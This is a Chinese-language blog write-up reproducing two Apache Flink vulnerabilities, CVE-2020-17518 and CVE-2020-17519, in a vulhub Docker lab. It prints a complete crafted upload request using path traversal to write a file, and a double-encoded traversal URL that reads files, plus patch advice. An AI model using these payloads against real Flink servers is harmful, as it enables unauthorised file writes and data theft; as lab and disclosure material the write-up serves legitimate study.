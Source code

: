 ```yaml
---
title: Apache Flink（CVE-2020-17518&&CVE-2020-17519）漏洞复现
author: jh2ng
img: 'https://b3logfile.com/file/2021/01/image-4733072e.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 40618
date: 2021-03-17 12:00:18
---
```


## 漏洞描述

**CVE-2020-17518：通过REST API写入远程文件**

影响版本：Flink 1.5.1-1.11.2

Flink 1.5.1引入了REST API，可通过修改HTTP HEADER将任意文件写入到文件系统的任意位置。

**CVE-2020-17519：通过REST API读取远程文件**

影响版本 Flink 1.11.0-1.11.2

Flink 1.11.0-1.11.2中引入的一项更改，允许攻击者通过JobManager进程的REST接口读取本地文件系统上的任何文件，访问仅限于JobManager可访问的文件。

## 环境搭建

下载vulhub

```
git clone https://github.com/vulhub/vulhub.git
```

进入目录

```
 cd vulhub/flink/CVE-2020-17518
```

安装环境

```
 docker-compose up -d
```

![image.png](https://b3logfile.com/file/2021/01/image-e7124b46.png)

访问

![image.png](https://b3logfile.com/file/2021/01/image-9cddfee5.png)

这里版本为1.11.2

## 漏洞复现

**CVE-2020-17518复现**

构造数据包

```
POST /jars/upload HTTP/1.1
Host: your ip:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 192

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/flag"

This is flag 
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![image.png](https://b3logfile.com/file/2021/01/image-4733072e.png)

![image.png](https://b3logfile.com/file/2021/01/image-848c825c.png)

也可以通过CVE-2020-17519来进行读取

**CVE-2020-17519复现**

```
http://your ip:8081//jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252ftmp%252fflag
```

`%252f` 是 `/` 的二次编码

直接访问可读取到文件信息

![image.png](https://b3logfile.com/file/2021/01/image-8a74e05a.png)

## 修复建议

升级到安全版本

Flink 1.11.3或Flink 1.12.0

## 参考连接

[https://lists.apache.org/thread.html/rb43cd476419a48be89c1339b527a18116f23eec5b6df2b2acbfef261%40%3Cdev.flink.apache.org%3E](https://lists.apache.org/thread.html/rb43cd476419a48be89c1339b527a18116f23eec5b6df2b2acbfef261%40%3Cdev.flink.apache.org%3E)
[https://lists.apache.org/thread.html/r6843202556a6d0bce9607ebc02e303f68fc88e9038235598bde3b50d%40%3Cdev.flink.apache.org%3E](https://lists.apache.org/thread.html/r6843202556a6d0bce9607ebc02e303f68fc88e9038235598bde3b50d%40%3Cdev.flink.apache.org%3E)
